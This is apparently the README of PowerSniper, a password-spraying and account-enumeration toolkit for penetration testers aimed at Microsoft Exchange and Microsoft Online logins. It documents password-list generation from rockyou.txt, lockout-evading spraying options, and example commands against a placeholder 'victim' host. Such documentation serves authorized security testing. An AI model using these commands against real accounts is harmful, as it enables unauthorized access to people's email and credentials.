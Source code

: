 # PowerSniper
Password spraying script and helper for creating password lists.

The Python script uses configurable parameters to extract complex passwords from a password list such as rockyou.txt.  It then analyzes the Damerau-Levenshtein distance between that password and a list of common passwords (the text file in this repository is the top 20 most common rockyou passwords that could be easily modified to be a complex password, i.e. not the one's that are all digits).  The script is configurable for the maximum distance to keep a password, with a default of 4, and will output results to a CSV file.

The PowerShell script loops through usernames and passwords and attempts to authenticate with them against various Microsoft Exchange web-based services.  The script supports pausing after a specified lockout count for a specified period of time to prevent account lockouts.

PowerSniper supports password spraying against the following services at this time:

<ul>
<li>Outlook Web Access</li>
<li>Outlook Anywhere</li>
<li>ActiveSync</li>
<li>Microsoft Online</li>
<li>SMB</li>
<li>WMI</li>
</ul>

PowerEnum is a tool that performs account enumeration only. It sprays Microsoft Online with a given username list using a password of 'password' and identifies valid accounts based on error messages.

The code that loads the Microsoft.Exchange.WebServices.dll for Outlook Anywhere authentication was found in the MailSniper tool (https://github.com/dafthack/MailSniper) created by @dafthack.

Requirements
============
passdist.py requires jellyfish

Usage
=====
<pre>
usage: passdist.py [-h] --wordlist WORDLIST --toplist TOPLIST [--output OUTPUT] [--passmin PASSMIN] 
                        [--passmax PASSMAX] [--complex] [--passdist PASSDIST]
                        
  Get the distances between complex passwords and top passwords used

  optional arguments:  
    -h, --help           show this help message and exit  
    --wordlist WORDLIST  the file with the complex rockyou passwords (default: None)  
    --toplist TOPLIST    the file with the top rockyou passwords (default: None)  
    --output OUTPUT      the CSV output of the analysis (default: analysis.csv)  
    --passmin PASSMIN    the minimum size password to choose from (default: 7)  
    --passmax PASSMAX    the maximum size password to choose from (default: 12)  
    --complex            require complex passwords (default: 0)  
    --passdist PASSDIST  the maximum distance between passwords to keep (default: 4)
</pre>

Example passdist.py command:
<pre>
    python passdist.py --wordlist rockyou.txt --toplist toplist_rockyou.txt --output lowdist.csv --passmin 7 
        --passmax 12 --complex --passdist 4
</pre>

<pre>
NAME    
  Invoke-PowerSniper
  
SYNOPSIS    
  This module loops through usernames and passwords and attempts to authenticate with them against various 
  Microsoft Exchange web-based services.
  
    PowerSniper Function: Invoke-PowerSniper    
    Author: Josh Berry (@codewatchorg)    
    License: BSD 3-Clause    
    Required Dependencies: None    
    Optional Dependencies: None

SYNTAX    
  Invoke-PowerSniper [[-uri] &lt;Object&gt;] [[-svc] &lt;Object&gt;] [[-userlist] &lt;Object&gt;] 
      [[-passlist] &lt;Object&gt;] [[-sos] &lt;Object&gt;] [[-lockout] &lt;Object&gt;] 
      [[-locktime] &lt;Object&gt;] [&lt;CommonParameters&gt;]

DESCRIPTION    
  This module loops through usernames and passwords and attempts to authenticate with them against 
  various Microsoft Exchange web-based services.  The script supports pausing after a specified 
  lockout count for a specified period of time to prevent account lockouts.

RELATED LINKS    
  https://blogs.technet.microsoft.com/meamcs/2015/03/06/powershell-script-to-simulate-outlook-web-access-url-user-logon/
  http://mobilitydojo.net/2010/03/30/rolling-your-own-exchange-activesync-client/
  http://mobilitydojo.net/2011/08/24/exchange-activesync-building-blocks-first-sync/
  http://mobilitydojo.net/files/EAS_BB/Part_02/HTTP_GET.cs
  https://blogs.technet.microsoft.com/heyscriptingguy/2011/12/02/learn-to-use-the-exchange-web-services-with-powershell/
  http://stackoverflow.com/questions/1582285/how-to-remove-elements-from-a-generic-list-while-iterating-over-it
  https://github.com/dafthack/MailSniper
</pre>

Example PowerSniper.ps1 usage:
<pre>
    # Outlook Anywhere Test
    Invoke-PowerSniper -uri https://outlook.office365.com -svc oa -userlist users.txt -passlist passwords.txt 
        -sos false -lockout 6 -locktime 30
    
    # ActiveSync Test
    Invoke-PowerSniper -uri https://outlook.office365.com -svc as -userlist users.txt -passlist passwords.txt 
        -sos false -lockout 6 -locktime 30
    
    # Outlook Web Access Test
    Invoke-PowerSniper -uri https://mail.victim.com/owa/auth.owa -svc owa -userlist users.txt 
        -passlist passwords.txt -sos false -lockout 6 -locktime 30
</pre>

<pre>
NAME    
  Invoke-PowerEnum
  
SYNOPSIS    
  This module loops through usernames to validate accounts on MSOL.
  
    PowerEnum Function: Invoke-PowerEnum    
    Author: Josh Berry (@codewatchorg)    
    License: BSD 3-Clause    
    Required Dependencies: None    
    Optional Dependencies: None

SYNTAX    
  Invoke-PowerEnum [[-userlist] &lt;Object&gt;] 

DESCRIPTION    
  This module loops through usernames to spray against Microsoft Online to identify valid accounts.

RELATED LINKS    
  https://github.com/dafthack/MSOLSpray
</pre>

Example PowerEnum.ps1 usage:
<pre>
    Invoke-PowerEnum -userlist
</pre>
